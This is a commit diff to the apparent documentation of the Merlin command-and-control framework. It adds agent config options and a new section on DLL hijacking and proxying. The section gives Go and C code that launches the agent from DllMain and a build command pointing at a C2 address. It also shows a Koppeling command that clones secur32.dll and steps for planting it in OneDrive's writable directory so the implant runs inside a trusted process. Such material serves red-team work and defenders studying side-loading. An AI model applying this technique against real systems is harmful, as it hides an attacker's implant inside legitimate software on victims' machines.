

Before and after one commit to Ne0nd0g/merlin-documentation, a Sphinx documentation site: the page built from docs/source/agent/dll.rst, in a window 1280 px wide and 1400 px high, scrolled down 2210 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/docs/source/agent/custom.rst
+++ b/docs/source/agent/custom.rst
@@ -40,9 +40,11 @@
     LISTENER, The UUID of the listener that the peer-to-peer agent is configured to communicate with., Overrides the ``-listener`` flag
     RETRY, The maximum amount of failed checkins before the agent will quit running, Overrides the ``-maxretry`` commandline flag
     PAD, The maximum amount of data that will be randomly selected and appended to every message, Overrides the ``-padding`` commandline flag
+    PARROT, Configure the HTTP client's TLS configuration to match the provided browser string, Overrides the ``-parrot`` commandline flag
     PROTO, "Protocol for the agent to connect with [https (HTTP/1.1), http (HTTP/1.1 Clear-Text), h2 (HTTP/2), h2c (HTTP/2 Clear-Text), http3 (QUIC or HTTP/3.0)] (default 'h2')", Overrides the ``-proto`` commandline flag
     PROXY, Hardcoded proxy to use for http/1.1 traffic only that will override host configuration, Overrides the ``-proxy`` commandline flag
     PSK, Pre-Shared Key used to encrypt initial communications (default "merlin"), Overrides the ``-psk`` commandline flag
+    SECURE, Require TLS certificate validation for HTTP communications, Overrides the ``-secure`` commandline flag
     SKEW, "Amount of skew, or variance, between agent checkins", Overrides the ``-skew`` commandline flag
     SLEEP, "The amount of time the Agent will sleep between checkins Must use golang time notation (e.g., ``10s`` for ten seconds)", Overrides the ``-sleep`` command line flag
     TRANSFORMS, Ordered CSV of transforms to construct a message with, Overrides the ``-transforms`` commandline flag.
--- a/docs/source/agent/dll.rst
+++ b/docs/source/agent/dll.rst
@@ -61,3 +61,90 @@
 ``rundll32 merlin.dll,Run https://yourdomian.com:443/``
 
 **NOTE:** Passing a custom URL only works when using cmd.exe and fails when using powershell.exe
+
+DLL Hijacking/Proxying with the Merlin DLL Agent
+------------------------------------------------
+
+With a little bit of setup, the Merlin DLL agent can be used for DLL Hijacking / Side-loading / Proxying. This is a great technique to get the Merlin agent running in the codespace of a trusted process.
+
+The specifics on choosing an executable for DLL proxying are outside the scope of this documentation. Assume that a candidate executable has been identified.
+
+In the ``merlin-agent-dll`` repo, add a new exported function with an arbitrary name to ``main.go``. Have this function execute the ``run`` function with the ``url`` argument:
+
+.. code-block:: go
+
+    ...[SNIP]...
+
+    // EXPORTED FUNCTIONS
+
+    // MagicMan is a test function
+    //
+    //export MagicMan
+    func MagicMan() {
+        run(url)
+    }
+
+    ...[SNIP]...
+
+Note that the name of the exported function must match in the comment block and the code itself or Go will complain during compilation.
+
+Now, in the ``merlin.c`` source code, add a new function that executes the exported function from ``main.go``:
+
+.. code-block:: c
+
+    ...[SNIP]...
+
+    DWORD WINAPI RunMagicMan(LPVOID LpParam){
+        //MessageBoxA( NULL, "Hello from MagicMan() in Merlin", "DLL Load", MB_OK );
+        MagicMan();
+        return TRUE;
+    }
+
+    ...[SNIP]...
+
+Next, edit the structure of ``DllMain`` entry point. We want to create a thread that will execute the Merlin agent function when the DLL is side-loaded into the process:
+
+.. code-block:: c
+
+    ...[SNIP]...
+
+    BOOL WINAPI DllMain(
+        HINSTANCE hinstDLL,  // handle to DLL module
+        DWORD fdwReason,     // reason for calling function
+        LPVOID lpReserved )  // reserved
+    {
+        // Perform actions based on the reason for calling.
+        switch( fdwReason )
+        {
+            case DLL_PROCESS_ATTACH:
+                //MessageBoxA( NULL, "Hello from DllMain-PROCESS_ATTACH in Merlin!", "DLL Load", MB_OK );
+                CreateThread(NULL, 0, RunMagicMan, NULL, 0, 0);
+                break;
+
+    ...[SNIP]...
+
+Now, when the Merlin DLL Agent is loaded by a trusted process, the DLL entry point will run the CreateThread function and execute the agent.
+
+Build the DLL agent with the merlin-agent-dll makefile and supply your desired URL, PSK, and protocol parameters:
+
+``husky@dev-kde:~/merlin-agent-dll$ make URL=http://10.10.1.237:8443 PSK=merlin PROTO=http``
+
+Let's assume that we're targeting the OneDrive.exe program for our DLL Proxy. We know that OneDrive.exe loads ``secur32.dll`` from the present working directory during execution.
+
+We can now use a tool like Koppelling to create a proxied DLL:
+
+``PS C:\Users\Matt\Desktop\Koppeling> .\NetClone.exe --target 'C:\Users\Matt\Desktop\merlin.dll' --reference 'C:\Windows\system32\secur32.dll' --output 'C:\Users\Matt\Desktop\secur32.dll'``
+
+Then, we endeavor to drop our proxied DLL into the OneDrive application directory. Luckily for us, this is in %APPDATA% and we can write to the directory:
+
+``C:\Users\Matt\AppData\Local\Microsoft\OneDrive``
+
+When the application starts, our proxied DLL is pulled into the process and a thread is executed. Our session is established and our agent lives inside the OneDrive.exe process:
+
+.. image:: ../../images/dll-proxy-1.png
+   :align: center
+   :alt: DLL Proxy 1
+
+.. image:: ../../images/dll-proxy-2.png
+   :align: center
+   :alt: DLL Proxy 2
```
Also changed, not shown: README.md (+3 -3 lines), docs/source/agent/cli.rst (+23 -0 lines), docs/source/cli/menu/agents.rst (+27 -0 lines), docs/CHANGELOG.MD, docs/images/dll-proxy-1.png (added), docs/images/dll-proxy-2.png (added), 12 other files.
